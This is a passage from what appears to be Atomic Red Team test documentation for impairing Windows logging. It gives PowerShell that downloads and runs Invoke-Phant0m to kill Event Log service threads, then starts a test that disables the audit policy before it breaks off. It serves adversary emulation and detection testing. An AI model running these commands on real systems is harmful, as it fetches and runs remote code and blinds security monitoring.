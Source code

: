 ## Atomic Test #3 - Kill Event Log Service Threads
Kill Windows Event Log Service Threads using Invoke-Phant0m. WARNING you will need to restart PC to return to normal state with Log Service. https://artofpwn.com/phant0m-killing-windows-event-log.html

**Supported Platforms:** Windows


**auto_generated_guid:** 41ac52ba-5d5e-40c0-b267-573ed90489bd






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned -ErrorAction Ignore
$url = "https://raw.githubusercontent.com/hlldz/Invoke-Phant0m/f1396c411a867e1b471ef80c5c534466103440e0/Invoke-Phant0m.ps1"
$output = "$env:TEMP\Invoke-Phant0m.ps1"
$wc = New-Object System.Net.WebClient
$wc.DownloadFile($url, $output)
cd $env:TEMP
Import-Module .\Invoke-Phant0m.ps1
Invoke-Phant0m
```

#### Cleanup Commands:
```powershell
Write-Host "NEED TO Restart-Computer TO ENSURE LOGGING RETURNS" -fore red
Remove-Item "$env:TEMP\Invoke-Phant0m.ps1" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #4 - Impair Windows Audit Log Policy
Disables the windows audit policy to prevent key host based telemetry being written into the event logs.
[Solarigate example](https://www.microsoft.com/security/blog/2021/01/20/deep-dive-into-the-solorigate-second-stage-activation-from-sunburst-to-teardrop-and-raindrop/)

**Supported Platforms:** Windows


**auto_generated_guid:** 5102a3a7-e2d7-4129-9e45-f483f2e0eea8






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
